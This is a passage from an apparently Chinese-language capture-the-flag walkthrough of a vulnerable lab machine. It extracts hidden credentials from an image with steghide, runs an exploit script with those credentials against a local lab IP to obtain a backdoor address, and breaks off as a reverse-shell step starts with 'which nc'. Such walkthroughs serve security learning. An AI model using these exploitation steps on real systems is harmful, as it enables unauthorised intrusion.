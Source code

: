 ```
steghide extract -sf doubletrouble.jpg -p 92camaro
```

![image-20250315045248794](assets/image-20250315045248794.png)

```
cat creds.txt
```

![image-20250315045304109](assets/image-20250315045304109.png)

得到用户名和密码





#### 利用exp

```
python 50944.py -url http://192.168.1.12/ -u otisrush@localhost.com -p otis666
```

![image-20250315050210949](assets/image-20250315050210949.png)

给出后门地址

直接访问

![image-20250315050240984](assets/image-20250315050240984.png)





#### 反弹shell

```
which nc
```
